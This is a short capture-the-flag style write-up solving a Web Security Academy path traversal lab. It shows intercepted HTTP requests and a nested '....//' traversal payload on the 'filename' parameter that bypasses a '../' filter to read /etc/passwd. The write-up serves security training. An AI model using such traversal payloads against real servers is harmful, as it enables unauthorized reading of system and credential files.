
---

- **Author:** sonyahack1
- **Date:** 01.05.2025

---

## Intercepting the request

```html

GET /product?productId=1 HTTP/2
Host: 0ac400d4034ad782846572dd00f400be.web-security-academy.net
Cookie: session=*************************
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0ac400d4034ad782846572dd00f400be.web-security-academy.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

```

> The vulnerability relates to the display of product images

> change request to **"image"**

```html

GET /image HTTP/2

```
> Response:

```html

HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 30

"Missing parameter 'filename'"

```

> I need to read the passwd file via **'filename'** parameter but common Path Traversal doesn't work:

```html

GET /image?filename=../../../../etc/passwd HTTP/2

```
> Response:

```html

HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 14

"No such file"

```

> The application has protection against normal **Path Traversal** (Relative or Absolute).
> This means that before reading any file on the server, the system checks its full path in the request
> and removes lines like "../../", "..\..\" etc. from it. The vulnerability of such filtering is that
> it works according to a direct template - **' ../ '** and the server may not recognize encoding, additional slashes,
> unicode, byte masking etc. for such traversals.

> I change the request and add **additional slashes** and **dots** to the Path Traversal:

```html

GET /image?filename=....//....//....//etc/passwd HTTP/2

```
> Response:

![passwd_file](./screenshots/passwd_file.png)

> Lab solved:

![solved_lab](./screenshots/solved_lab.png)
 
